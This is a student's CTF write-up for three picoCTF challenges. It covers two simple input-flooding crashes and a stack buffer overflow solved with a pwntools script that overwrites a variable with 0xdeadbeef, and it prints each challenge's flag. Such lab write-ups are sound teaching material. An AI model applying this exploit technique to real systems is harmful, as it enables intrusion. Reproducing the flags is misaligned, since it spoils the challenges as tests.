

# 1. buffer overflow 0

Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.
Additional details will be available after launching your challenge instance.

## Solution:


As the challenge suggested, I opened the source file to see that the first function was something known as "sigsegv_handler" and it printed the flag upon a segmentation error.

```bash
snmvarun@DESKTOP-16J7ALL:/mnt/d/Cryptonite/PicoCTF$ nc saturn.picoctf.net 49249
Input: VVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVV
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
So then I ran the nc command given in the challenge and spammed it with characters and overflowed it to get the flag 

## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## Concepts learnt:

- What is buffer overflow
- How to make segmentation error by overflowing.

## Notes:

- nc command is netcat command for reading from and writing to network connections using TCP or UDP.

## Resources:

- [Buffer Overflow](https://youtu.be/AD-iXWANggo?si=qMPe0lBi1SivMyQo)

# 2. Format String 0

Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Additional details will be available after launching your challenge instance.

## Solution:

Similar to the first challenge, there is another sigsegv function that requires overflow to print the flag

```bash
snmvarun@DESKTOP-16J7ALL:/mnt/d/Cryptonite/PicoCTF$ nc mimas.picoctf.net 64212
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaa
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```
I spam it with characters to overflow the input and get the flag.

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```

## Concepts learnt:

- Better understanding in sigsegv segmentation fault.

## Notes
- None 

## Resources:

- None

# 3. Clutter-Overflow

Clutter, clutter everywhere and not a byte to use.
nc mars.picoctf.net 31890

## Solution:
First I opened the c program to find that the program needs to have buffer overflow to print the flag and the main command behind this is gets function where if I exceed the size, I can cause a buffer overflow, now to check by how much do I need to exceed.


```bash
snmvarun@DESKTOP-16J7ALL:/mnt/d/Cryptonite/PicoCTF/Bin_Exp$ nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
code == 0x0
code != 0xdeadbeef :(
```
Since SIZE was equal to 0x100(256 bytes) this implies I need to provide more than 256 bytes of input and cause it to overflow. Now by looking at the algorithm the main objective is to overwrite the code variable to be equal to GOAL, so I first 256 bytes of padding data need to be sent and then 8 more bytes which will overwrite the 8 bytes allocated for the code variable(long variable takes about 8 bytes in 64 bit architecture) which will then be added to the payload. Then I packed the GOAL by using p64() and then appended it to the end of the payload. Sending that payload to the server and then getting the output I get the flag.

```python
#solve.py
from pwn import *
padding = b'A' * 264
goal = 0xdeadbeef
payload = padding + p64(goal)
r = remote('mars.picoctf.net', 31890)
r.recvuntil(b"What do you see?\n")
r.sendline(payload)
print("\n[+] Payload sent! Receiving the flag...")
r.interactive()
```


```bash
snmvarun@DESKTOP-16J7ALL:/mnt/d/Cryptonite/PicoCTF/Bin_Exp$ python3 solve.py
[+] Opening connection to mars.picoctf.net on port 31890: Done

[+] Payload sent! Receiving the flag...
[*] Switching to interactive mode
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
[*] Got EOF while reading in interactive
```

## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:

- Exploiting vulnerable programs and how to spot vulnerability
- Deeper understanding in Data and architecture.
- How gets function is dangerous

## Notes:

- Include any alternate tangents you went on while solving the challenge, including mistakes & other solutions you found.
- 

## Resources:

- [pwntools tutorial](https://www.youtube.com/watch?v=9wepzpQhhio)


